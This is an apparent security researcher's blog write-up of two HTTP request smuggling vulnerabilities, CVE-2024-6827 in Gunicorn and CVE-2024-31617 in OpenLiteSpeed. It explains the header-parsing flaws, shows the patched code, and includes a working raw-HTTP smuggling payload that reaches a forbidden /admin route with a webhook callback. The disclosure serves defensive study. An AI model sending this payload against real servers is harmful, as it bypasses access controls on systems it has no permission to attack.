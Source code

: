 ```yaml
---
title: 'Caught in Transit: A Deep Dive into Two HTTP Request Smuggling Vulnerabilities'
date: 2024-08-08 22:38:40
author: Sayooj B Kumar
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - Web Exploitation
 - Bug Bounty
 - Zeroday
tags:
 - Gunicorn
 - OpenLiteSpeed
 - CVE
---
```


**tl;dr**

+ CVE-2024-6827 
+ CVE-2024-31617
<!--more-->

# Gunicorn

<br>

## Introduction 

Iam usually not a great fan of Request smuggling since its exploitability is laregly depeneded on the combinations of the FE BE servers.This all started [Yadhu Krishna](https://yadhu.in/about/) found a [zeroday](https://yadhu.in/2024/05/11/Exploiting-HTTP-Request-Smuggling-in-Node.js-and-Gunicorn/) in gunicorn and decided to Host an internal challenge on the Same where he used combination of openlitespeed as a frondend proxy server and gunicorn as BE server.
<br>

## Diving into Source Code

I initially started looking into Gunicorn’s source code, specifically where they handle the [TE and CL headers](https://github.com/benoitc/gunicorn/blob/master/gunicorn/http/message.py#L169), and my attention was immediately drawn to something at the very first stage.

```
elif name == "TRANSFER-ENCODING":
                if value.lower() == "chunked":
                    if chunked:
                        raise InvalidHeader("TRANSFER-ENCODING", req=self)
                    chunked = True
```
When TRANSFER-ENCODING is passed as a header, Gunicorn strictly checks if the value exactly matches to `chunked`, which looks like a valid implementation to catch troublemakers like `TRANSFER-ENCODING: chunkedxd`. But what if `Transfer-Encoding: chunked, gzip` is passed? This is a legitimate header, and Gunicorn, as per its implementation, is not expecting stacked header values. This helped me to imagine a hypothetical situation where we pass valid headers of TE and CL where FE server consider `TRANSFER-ENCODING` since it has precedence over `Content-Length` while Gunicorn try to strictly compare the value and fail since we have stacked values in `chunked, gzip` and continue to proceed with `Content-Length` a TE CL request smuggling. 
<br>

## Proof of Concept

Consider the following dummy application where the /admin route is forbidden by the frontend server(OpenLiteSpeed)

```python
from flask import Flask, render_template, request, redirect, Response
import requests 

app = Flask(__name__)


@app.before_request
def handle_chunking():
    request.environ["wsgi.input_terminated"] = True

@app.route("/admin")
def reached():
    print("welcome Admin")
    return "Welcome Admin"

@app.route("/", methods=["GET", "POST"])
def get():
    return "HELLO NON-SMUGGLER"


if __name__ == "__main__":
    app.run(port=8000)
```
<br>

### Exploit

```
POST / HTTP/1.1
Host: 172.24.10.169
Content-Length: 6
Transfer-Encoding: chunked,gzip

73

GET /admin?callback1=https://webhook.site/717269ae-8b97-4866-9a24-17ccef265a30 HTTP/1.1
Host: 172.24.10.169

0
```
<br>

## Fix

The value of TRANSFER-ENCODING is converted into an array using a comma as the delimiter and then compared.
```python
 for (name, value) in self.headers:
            if name == "CONTENT-LENGTH":
                if content_length is not None:
                    raise InvalidHeader("CONTENT-LENGTH", req=self)
                content_length = value
            elif name == "TRANSFER-ENCODING":
                # T-E can be a list
                # https://datatracker.ietf.org/doc/html/rfc9112#name-transfer-encoding
                vals = [v.strip() for v in value.split(',')]
                for val in vals:
                    if val.lower() == "chunked":
```

<br>
<br>
<br>

# OpenLiteSpeed
<br>

## Introduction

Since the frontend server used for the challenge was OpenLiteSpeed, I was trying out different requests and inspecting them to exploit Gunicorn. I encountered a common vulnerable implementation related to request smuggling.
<br>

## Diving into Source Code

OpenLiteSpeed was comparing if the value of `transfer-encoding` starts with `chunked`. This would intercept an invalid header `TRANSFER-ENCODING: chunkedxd` as a valid `TRANSFER-ENCODING`, while the other server rejects it and falls back to `Content-Length`. Any BE server that integrates with this vulnerable version of OpenLiteSpeed can be easily exploited.

```c
if (strncasecmp(pCur, "chunked", 7) == 0) 

```
<br>

## Fix

```c
if (strncasecmp(pCur, "chunked", 7) == 0
            && m_commonHeaderLen[index] == 7)
```

# External Links

- [Gunicorn public report](https://huntr.com/bounties/1b4f8f38-39da-44b6-9f98-f618639d0dd7)
- [OpenliteSpeed Secure Release](https://github.com/litespeedtech/openlitespeed/releases/tag/v1.8.1)
- [CVE-2024-31617](https://www.cve.org/CVERecord?id=CVE-2024-31617)
- [CVE-2024-6827](https://nvd.nist.gov/vuln/detail/CVE-2024-6827)

